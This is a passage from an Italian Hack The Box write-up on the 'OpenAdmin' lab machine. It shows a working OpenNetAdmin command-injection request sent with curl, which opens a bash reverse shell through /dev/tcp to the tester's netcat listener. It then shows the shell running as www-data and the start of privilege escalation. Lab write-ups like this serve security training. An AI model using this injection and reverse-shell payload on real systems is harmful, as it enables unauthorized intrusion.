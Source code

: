 ```bash

```

Lo script esegue un ciclo bash infinito prendendo comandi e stampando l'output:

Dato che voglio una shell legittima, userò curl per eseguire il push di una shell inversa bash, prima ci mettiamo sempre in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 999
listening on [any] 999 ...
```

usiamo curl per eseguire il push dell shell

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/999 0>%261'&xajaxargs[]=ping"  http://10.10.10.171/ona/
```

e abbiamo la nostra shell

```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp 999
listening on [any] 999 ...
connect to [10.10.14.16] from openadmin.htb [10.10.10.171] 46252
bash: cannot set terminal process group (1265): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@openadmin:/opt/ona/www$
```

# PRIVESC

## www-data -> jimmy

Nella home abbiamo due utenti `jimmy` e `joanna`

```bash
www-data@openadmin:/opt/ona/www/$ cd /home
www-data@openadmin:/home$ ls
jimmy  joanna
```

Proviamo ad accedere 

```
www-data@openadmin:/home$ cd jimmy
bash: cd: jimmy: Permission denied
www-data@openadmin:/home$ cd joanna
bash: cd: joanna: Permission denied
www-data@openadmin:/home$
```
